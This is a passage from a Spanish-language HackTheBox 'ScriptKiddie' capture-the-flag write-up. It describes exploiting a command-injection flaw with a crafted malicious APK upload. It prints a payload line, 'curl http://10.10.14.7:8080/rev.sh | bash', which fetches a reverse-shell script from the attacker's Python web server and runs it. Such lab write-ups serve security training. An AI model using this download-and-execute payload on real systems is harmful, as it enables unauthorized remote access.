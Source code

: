 Me descargo el exploit y lo abro para analizar el código

Si nos fijamos en la línea de la carga util (payload) nos dice 'Change me' de forma que podemos insertar el comando que queramos, ya que la vulnerabilidad es Command Injection.

Procedo a crear un archivo con una reverse shell en bash.

![](/assets/images/HTB/ScriptKiddie-HackTheBox/reverse_bash.png)

> Una vez creado lanzo un servidor de python <span style="color:red">python3 -m http.server 8080</span>

> Edito el campo payload del exploit añadiendo lo siguiente

<span style="color:red">curl http://10.10.14.7:8080/rev.sh | bash</span>

A continuación lanzamos el exploit para que nos genere un archivo malicioso apk con el payload indicado.

![](/assets/images/HTB/ScriptKiddie-HackTheBox/exploit_apk.png)

Una vez generado debemos subir el archivo apk a la web desde el apartado template y se hará la magia.

![](/assets/images/HTB/ScriptKiddie-HackTheBox/shell.png)
